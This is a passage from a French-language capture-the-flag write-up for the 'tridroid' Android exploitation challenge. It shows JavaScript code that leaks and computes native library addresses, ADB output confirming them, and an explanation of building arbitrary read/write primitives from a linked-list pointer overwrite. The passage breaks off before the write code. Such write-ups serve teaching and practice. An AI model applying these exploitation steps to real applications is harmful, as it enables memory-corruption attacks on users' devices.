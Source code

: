 Nous avons écrit de petites fonctions d'aide pour "packer" et "depacker" les adresses en little endian :

```javascript
function unpack64(data) {
    return parseInt(data.match(/../g).reverse().join(''), 16);
}

function pack64(data) {
    return data.toString(16).match(/../g).reverse().join('').padEnd(16, '0');
}
```

En les utilisant, nous pouvons divulguer l'adresse de base :

```javascript
base_addr = unpack64(leak) - 0x16FF;
console.log("Base address : "+base_addr.toString(16));
```

Ceci fournit le résultat suivant :

```
08-02 21:33:24.962 22159 22159 I chromium: [INFO:CONSOLE(50)] "Base address : 785fd1018000", source:  (50)
```

Nous pouvons confirmer que l'adresse est bien valide à partir de notre shell ADB :

```
generic_x86_64_arm64:/ # grep "tridroid" /proc/$(pidof com.google.ctf.pwn.tridroid)/maps | grep "r-x" | grep base.apk 
785fd1018000-785fd101a000 r-xp 003a1000 fd:05 40963                      /data/app/~~8HrbOax9i97fF6BJzSPA0Q==/com.google.ctf.pwn.tridroid-2Omui46_qGvtYZn0eUP3ZQ==/base.apk
```

Ayant l'adresse de base, nous pouvons calculer l'adresse de `invokeJavaMethod` car nous savons grâce à Ghidra qu'elle est située à l'offset `0xFA0` :

```javascript
invoke_addr = base_addr + 0xFA0;
console.log("invokeJavaMethod address : "+invoke_addr.toString(16));
```

### Obtenir des primitives de lecture/écriture arbitraires

Nous pouvons abuser des vulnérabilités identifiées dans `modify_element` pour tirer parti d'une lecture et d'une écriture arbitraires.

Une lecture arbitraire peut être obtenue en écrasant le pointeur `next_elm` du premier élément de la liste, avec l'adresse souhaitée. L'appel de `pop` modifiera ensuite `stack_top` pour qu'il pointe sur cette adresse, supprimant alors l'élément modifié. L'appel de `top` affichera les données situées à `stack_top`, qui est maintenant l'adresse que nous contrôlons.

L'écriture arbitraire s'obtient de la même manière. D'abord, nous devons modifier `stack_top` pour qu'il pointe sur l'adresse où nous voulons écrire, en utilisant les mêmes étapes que précédemment. Maintenant nous pouvons appeler `modify` une fois de plus pour écrire des données arbitraires à `stack_top`, qui est notre adresse souhaitée :
